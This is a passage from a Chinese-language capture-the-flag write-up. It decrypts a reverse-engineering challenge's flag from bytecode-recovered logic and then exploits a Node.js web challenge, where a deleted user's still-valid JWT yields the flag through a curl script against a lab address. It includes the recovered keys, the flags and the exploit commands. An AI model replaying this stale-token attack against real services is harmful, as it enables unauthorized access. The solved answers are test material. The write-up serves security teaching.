| `0x1C` / `0x0C` | `BINARY_MODULO` / `BINARY_XOR` | 模长度与循环密钥异或 |
| `0x5F` / `0x97` | `FOR_ITER` / `JUMP_ABSOLUTE` | 循环取值与回跳 |
| `0x04` | `STORE_SUBSCR` | 交换两个索引位置 |
| `0x91` / `0x46` | `MAKE_CLOSURE` / `YIELD_VALUE` | 生成器表达式 |
| `0x4C` | `RETURN_VALUE` | 函数结束 |

#### 从字节码恢复具体算法

主函数提供了密钥与密文。`main` 的两个字节常量分别为 16 字节密钥和 54 字节密文包。

密钥：

```plain
c63b33cea0bdcf48794b4f9b2a19b2bf
```

密文包：

```plain
3200000053ff072f19cb663f40d4bea77805f7f133e933c904b6005737b00ff3602c4670e6611fc7b8d3061b3b1faf73c807e9708408
```

密文包的前 4 字节是 `32 00 00 00`。结合 `struct.unpack` 的格式常量 `'<I'`，可知这是一个小端无符号 32 位长度，即 `0x32 = 50`。真正参与后续变换的是紧接着的 50 字节。

#### 构造索引置换

`decrypt_flag` 使用到两个整数常量：

```plain
57005 = 0xDEAD
48879 = 0xBEEF
```

先构造 `indices = list(range(len(data)))`，然后执行：

```python
for i in range(len(data) - 1, -1, -1):
    j = (i * 0xDEAD + 0xBEEF) % len(data)
    indices[i], indices[j] = indices[j], indices[i]
```

需要注意三个细节：下标从 `len(data)-1` 向 0 递减，**包含 0**；取模的模数是完整数据长度；交换的是**索引列表**，不是直接交换密文字节。

第一个生成器的闭包捕获 `data`，其主体等价于 `data[i] for i in indices`。于是重排结果为：

```python
data = bytes(data[i] for i in indices)
```

#### 循环密钥异或


第二个生成器捕获 `key`，遍历 `enumerate(data)`，其主体等价于：

```python
b ^ key[i % len(key)]
```

因此执行：

```python
data = bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
```

这一步之后得到有效的 zlib 数据：

```plain
789c4bcb494caf0e4a2d4b2d2a4e8d0fc9c82c8e0fcd29294a8cf7482c4a8977ce48ccc949cd4b4f555454ac050066480ff0
```

#### zlib 解压与最终比较

最后调用 `zlib.decompress(data)`，返回 Flag 字节串。完整等价逻辑为：

```python
import struct
import zlib

def decrypt_flag(data, key):
    size = struct.unpack('<I', data[:4])[0]
    data = bytearray(data[4:4 + size])
    indices = list(range(len(data)))
    for i in range(len(data) - 1, -1, -1):
        j = (i * 0xDEAD + 0xBEEF) % len(data)
        indices[i], indices[j] = indices[j], indices[i]
    data = bytes(data[i] for i in indices)
    data = bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
    return zlib.decompress(data)
```

主函数读取 `input('Enter flag: ').encode()`，调用上述函数解密内置密文，然后比较两者；相等打印 `Correct!`，不相等打印 `Wrong!`。异常路径打印 `Error: Invalid input`。

`anti_debug()` 尝试访问 `ctypes.windll.kernel32.IsDebuggerPresent()`，异常被捕获后忽略。该检查不参与密文和密钥生成，静态恢复流程不需要执行它。

#### 完整回加密验证

把结果按相反方向重新处理：

1. 用 zlib 压缩恢复出的 Flag。
2. 用相同的 16 字节密钥循环异或。
3. 利用索引置换的逆映射，把字节放回原密文位置。
4. 在前面添加 4 字节小端长度。
5. 将整个 54 字节密文包与附件常量逐字节比较。

令 `P` 为前面构造的索引列表，解密重排是 `out[i] = encrypted[P[i]]`，因此逆向回填必须是：

```python
for i, position in enumerate(P):
    encrypted[position] = out[i]
```

最终脚本包含：

```python
assert encrypt(flag, key) == encrypted
```


```plain
Key: c63b33cea0bdcf48794b4f9b2a19b2bf
Flag: flag{Reverse_This_Ultra_Hard_Challenge!!!}
Exact encryption round trip: PASS
```

solve 脚本：[r03_solve.py](./assets/r03_solve.py) 


## Web 方向

### 01. Profile

#### 初步分析

直接访问，index.html 给出提示

```html
<html><body>欢迎使用</body>
<!--/source-->
</html>
```

访问 `/source`, 即可拿到后端源码 `app.js`。

#### 审计源码

注意到：

```js
const flag  = process.env.FLAG || "flag{fake_flag}";
const jwtKey = Math.random().toString();

class UserStore {
    get(uid) { return this.users[uid] ?? {}; }    // !!!!!!!查不到 uid 时回退成空对象 {}
    remove(uid) { /* 从 this.users 删除该用户 */ }
}

// 鉴权中间件：只验 JWT 签名，不校验用户是否仍存在
app.use((req, res, next) => {
    try {
        res.locals.user = jwt.verify(req.cookies.token, jwtKey, { algorithms: ["HS256"] });
    } catch (err) { /* ... */ }
    next();
});

app.get("/profile", (req, res) => {
    if (!res.locals.user) { res.status(401).send("请先登录"); return; }
    const user = users.get(res.locals.user.uid);
    res.send(user.restricted ? user.profile : flag);   // !!!!!! restricted 为假即返回 flag
});

app.post("/delete", (req, res) => {
    if (res.locals.user) { users.remove(res.locals.user.uid); }
    res.clearCookie("token");
    res.send("已成功删除该用户");
});
```

存在漏洞链：

1. JWT 无状态：中间件只验证签名，不检查 `uid` 对应的用户是否还在。用户被删除后，旧 JWT 依然能通过验签。
2. 回退空对象：`users.get(uid)` 对已删除的 `uid` 返回 `this.users[uid] ?? {}`，即 `{}`。
3. 判断缺陷：`/profile` 用 `user.restricted ? user.profile : flag`。空对象 `{}` 的 `.restricted` 是 `undefined`（falsy），于是走 else 分支直接返回 flag。

#### 利用

直接 Curl 即可:

```bash
BASE="http://172.31.31.254:52953"
UNAME="u123456"
HEADERS=$(mktemp)
trap 'rm -f "$HEADERS"' EXIT

curl -sS --max-time 20 -D "$HEADERS" \
  --data-urlencode "username=$UNAME" \
  --data-urlencode 'password=p' \
  -w '\nHTTP %{http_code}\n' \
  "$BASE/register"

TOKEN=$(sed -nE \
  's/^[Ss][Ee][Tt]-[Cc][Oo][Oo][Kk][Ii][Ee]:[[:space:]]*token=([^;[:space:]]+).*/\1/p' \
  "$HEADERS" | head -n 1)

printf 'Token: %s\n' "$TOKEN"

curl -sS --max-time 20 -X POST \
  --cookie "token=$TOKEN" \
  -w '\nHTTP %{http_code}\n' \
  "$BASE/delete"

curl -sS --max-time 20 \
  --cookie "token=$TOKEN" \
  -w '\nHTTP %{http_code}\n' \
  "$BASE/profile"
```

直接拿到 Flag 响应：

```plain
flag{bdaf96f6f3403be1720938ef20ccac34}
```
